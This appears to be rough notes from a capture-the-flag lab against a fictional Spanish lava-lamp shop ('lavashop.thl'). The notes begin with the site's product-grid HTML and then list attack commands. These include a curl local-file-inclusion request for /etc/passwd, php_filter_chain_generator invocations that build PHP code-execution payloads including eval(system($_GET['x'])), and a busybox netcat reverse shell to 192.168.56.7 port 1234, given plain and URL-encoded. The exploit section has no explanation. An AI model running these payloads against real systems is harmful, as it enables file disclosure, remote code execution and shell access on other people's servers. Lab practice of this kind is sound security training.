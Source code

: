 <section>
  <h2>Productos destacados</h2>
  <div class="product-grid">
    <article class="product">
      <img src="/assets/images/lamp1.jpg" alt="Lámpara de lava azul">
      <h3>Lava Classic - Azul</h3>
      <p>Lámpara clásica de lava azul, llega a ser hipnotizante.</p>
    </article>
    <article class="product">
      <img src="/assets/images/lamp2.jpg" alt="Lámpara de lava roja">
      <h3>Lava Premium - Rojo</h3>
      <p>Lámpara clásica de lava roja, llega a ser hipnotizante.</p>
    </article>
    <article class="product">   
      <img src="/assets/images/lamparasal.jpg" alt="Lámpara de sal del Himalaya">
      <h3>Lámpara de sal</h3>
      <p>Lámpara de sal del Himalaya, te otorgará calma para los CTFs avanzados.</p>
    </article>
    <article class="product">   
      <img src="/assets/images/lamparaplasma.jpg" alt="Lámpara de plasma">
      <h3>Lámpara de plasma</h3>
      <p>Lámpara de plasma, dará ese toque hacker a tu habitación.</p>
    </article>
  </div>
</section>




====================================================================================================================================================================








python3 php_filter_chain_generator.py --chain '<?php phpinfo(); ?>  '




====================================================================================================================================================================
curl 'http://lavashop.thl/pages/products.php?file=/etc/passwd'   



python3 php_filter_chain_generator.py --chain '<?php eval(system(busybox nc 192.168.56.7 1234 -e /bin/bash)); ?>  ' 


python3 php_filter_chain_generator.py --chain '<?php eval(system($_GET["x"])); ?>  ' 

x=busybox nc 192.168.56.7 1234 -e /bin/bash

&x=busybox%20nc%20192.168.56.7%201234%20-e%20/bin/bash
